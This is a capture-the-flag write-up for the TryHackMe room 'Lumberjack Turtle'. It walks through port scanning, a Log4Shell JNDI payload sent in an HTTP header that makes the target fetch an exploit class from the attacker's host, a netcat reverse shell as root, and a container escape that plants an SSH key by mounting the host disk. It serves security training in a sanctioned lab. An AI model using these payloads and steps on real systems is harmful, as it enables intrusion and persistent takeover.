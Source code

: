 ```yaml
---
layout: post
title: 'Try Hack Me - Lumberjack Turtle'
disass:
  - url: /assets/img/thm-lumberjackturtle/lumberjackturtle-1.png
    image_path: /assets/img/thm-lumberjackturtle/lumberjackturtle-1.png
    title: description
  - url: /assets/img/thm-lumberjackturtle/lumberjackturtle-2.png
    image_path: /assets/img/thm-lumberjackturtle/lumberjackturtle-2.png
    title: other
categories:
  - tryhackme
slug: thm-lumberjack-turtle
tags:
  - linux
  - java
  - log4shell
  - docker
---
```

## Challenge description

[https://tryhackme.com/room/lumberjackturtle](https://tryhackme.com/room/lumberjackturtle)

![description](/assets/img/thm-lumberjackturtle/lumberjackturtle-1.png "description")

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 -- -A -sC
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍
[...]
PORT   STATE SERVICE     REASON  VERSION
22/tcp open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDCnZPtl8mVLJYrSASHm7OakFUsWHrIN9hsDpkfVuJIrX9yTG0yhqxJI1i8dbI/MrexUGrIGzYbgLpYgKGsH4Q4dxB9bj507KQaTLWXwogdrkCVtP0WuGCo2EPZKorU85EWZAhrefG1Pzj3lAx1IdaxTHIS5zTqEJSZYttPF4BHb2avjKDVfSA+4cLP7ybq0rgohJ7JLG5+1dR/ijrGpaXnfudm/9BVjiKcGMlENS6bQ+a32Fs7wxL5c7RfKoR0CjA+pROXrOj5blQM4CI4wrEdphPZ/900I4DJ+kA6Ga+NJF6donQOmmhjsEEpI6RYcz6n/4ql1bomnyyI+jayyf3t
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBPkLzZd9EQTP/90Y/G1/CYr+PGrh376Qm6aZTO0HZ7lCZ0dExE834/QZ1vNyQPk4jg1KmS09Mzjz1UWWtUCYLg=
|   256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFdrmxj3Q5Et6BwEm7pC8cz5louqLoEAwNXGHi+3ee+t
80/tcp open  nagios-nsca syn-ack Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have a web server, apparantly nagio ncsa, running on port 80, which is unusual for this service that is normally running on port 5667 and a SSH server on port 22.

### Web Enumeration

There's nothing more than the home page that says :

> *What you doing here? There is nothing for you to C. Grab a cup of java and look deeper.*

After scratching my head for 10-15 minutes I tought about the room description :

> *What do lumberjacks and turtles have to do with this challenge?*
Hack into the machine. Get root.  You'll figure it out.

Lumberjack / Logging / Logs + Turtle / Shell = Log4Shell

So I launched a listener on ldap port (1389) and started fuzzing HTTP headers using Burp Suite. It didn't take long to get a hit, actually it worked on the first try, *accept* header :

![burpfuzz](/assets/img/thm-lumberjackturtle/lumberjackturtle-2.png "burpfuzz")

```
$ nc -lnvp 1389                                                      
listening on [any] 1389 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.105.211] 35244
0
 `�^C
```

It means we should be able to exploit this and get a foothold on the target

## Exploitation

To exploit the log4shell vulnerability, I used a [POC script by github's kozmer](https://github.com/kozmer/log4j-shell-poc.git)

[instructions source](https://www.hackingarticles.in/a-detailed-guide-on-log4j-penetration-testing/)

```
$ git clone https://github.com/kozmer/log4j-shell-poc
Cloning into 'log4j-shell-poc'...
remote: Enumerating objects: 205, done.
remote: Counting objects: 100% (202/202), done.
remote: Compressing objects: 100% (119/119), done.
remote: Total 205 (delta 74), reused 167 (delta 65), pack-reused 3
Receiving objects: 100% (205/205), 40.36 MiB | 73.67 MiB/s, done.
Resolving deltas: 100% (74/74), done.
$ cd log4j-shell-poc && wget https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz
& tar xvzf jdk-8u202-linux-x64.tar.gz
& sudo mv jdk1.8.0_202 /usr/bin/

# we need to edit the script to fit jdk version/path
$ sed -i 's/jdk1.8.0_20/\/usr\/bin\/jdk1.8.0_202/' poc.py
$ python3 poc.py --userip 1.1.1.1 --webport 8000 --lport 4444

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://1.1.1.1:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```

In another terminal, start a netcat listener on port 4444:

```
 nc -lnvp 4444                                                   
listening on [any] 4444 ...
```

We just need to repeat the request with Burp Suite to get a shell

![burpexploit](/assets/img/thm-lumberjackturtle/lumberjackturtle-3.png "burpexploit")

```
Send LDAP reference result for a redirecting to http://1.1.1.1:8000/Exploit.class
10.10.105.211 - - [24/Jan/2022 03:56:42] "GET /Exploit.class HTTP/1.1" 200 -

connect to [1.1.1.1] from (UNKNOWN) [10.10.105.211] 55104
id && hostname
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
81fbbf1def70
```

We got a reverse shell on the target as root in what seems to be a docker container. Let's confirm this by checking for .dockerenv file :

```
ls -la /
total 68
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 .
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 ..
-rwxr-xr-x    1 root     root             0 Dec 13 01:25 .dockerenv
```
While we are here, let's get our first flag :

```
ls -la /opt
total 12
drwxr-xr-x    1 root     root          4096 Dec 11 21:04 .
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 ..
-rw-r--r--    1 root     root            19 Dec 11 21:04 .flag1
cat /opt/.flag1
THM{REDACTED}
```

## Container Escape

So we are in a container, we now need to escape !

Let's start by listing disks :

```
ls -la /dev | grep disk
[...]
brw-rw----    1 root     disk      202,   0 Jan 24 01:15 xvda
brw-rw----    1 root     disk      202,   1 Jan 24 01:15 xvda1
brw-rw----    1 root     disk      202,  80 Jan 24 01:15 xvdf
brw-rw----    1 root     disk      202, 112 Jan 24 01:15 xvdh
```

Interesting, let's try to mount those disks :

```
mkdir /mnt/host
mount /dev/xvda1 /mnt/host
ls -la /mnt/host
total 100
drwxr-xr-x   22 root     root          4096 Jan 24 01:14 .
drwxr-xr-x    1 root     root          4096 Jan 24 03:18 ..
drwxr-xr-x    2 root     root          4096 Dec  8 16:04 bin
drwxr-xr-x    3 root     root          4096 Dec  8 16:03 boot
drwxr-xr-x    4 root     root          4096 Dec  8 16:03 dev
drwxr-xr-x   94 root     root          4096 Dec 13 02:21 etc
drwxr-xr-x    3 root     root          4096 Dec 13 01:25 home
lrwxrwxrwx    1 root     root            34 Dec  8 16:02 initrd.img -> boot/initrd.img-4.15.0-163-generic
lrwxrwxrwx    1 root     root            34 Dec  8 16:02 initrd.img.old -> boot/initrd.img-4.15.0-163-generic
drwxr-xr-x   20 root     root          4096 Dec 13 01:24 lib
drwxr-xr-x    2 root     root          4096 Dec  8 15:56 lib64
drwx------    2 root     root         16384 Dec  8 16:05 lost+found
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 media
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 mnt
drwxr-xr-x    3 root     root          4096 Dec 13 01:25 opt
drwxr-xr-x    2 root     root          4096 Apr 24  2018 proc
drwx------    6 root     root          4096 Jan 24 03:19 root
drwxr-xr-x    3 root     root          4096 Dec  8 16:04 run
drwxr-xr-x    2 root     root          4096 Dec 13 01:24 sbin
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 srv
drwxr-xr-x    2 root     root          4096 Apr 24  2018 sys
drwxrwxrwt    8 root     root          4096 Jan 24 03:26 tmp
drwxr-xr-x   12 root     root          4096 Dec 13 01:25 usr
drwxr-xr-x   12 root     root          4096 Dec 13 01:24 var
lrwxrwxrwx    1 root     root            31 Dec  8 16:02 vmlinuz -> boot/vmlinuz-4.15.0-163-generic
lrwxrwxrwx    1 root     root            31 Dec  8 16:02 vmlinuz.old -> boot/vmlinuz-4.15.0-163-generic
```

That is our way out. Let's get ourself a backdoor (more like, let's create ourself a key to the frontdoor) :

```
cat 'ssh-rsa AAAA[....]=' >> /mnt/host/root/.ssh/authorized_keys

$ ssh root@$ip -i ./id_rsa
root@lumberjackturtle:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We're out ! Let's get our last flag :

```
root@lumberjackturtle:~# cat root.txt
Pffft. Come on. Look harder.
root@lumberjackturtle:~# ls -laR
.:
total 36
[...]

/...:
total 12
drwxr-xr-x 2 root root 4096 Dec 13 01:25 .
drwx------ 6 root root 4096 Jan 24 03:19 ..
-r-------- 1 root root   26 Dec 13 01:25 ._fLaG2
root@lumberjackturtle:~# cat .../._fLaG2 
THM{REDACTED}
```

Thanks for reading <3

h3x
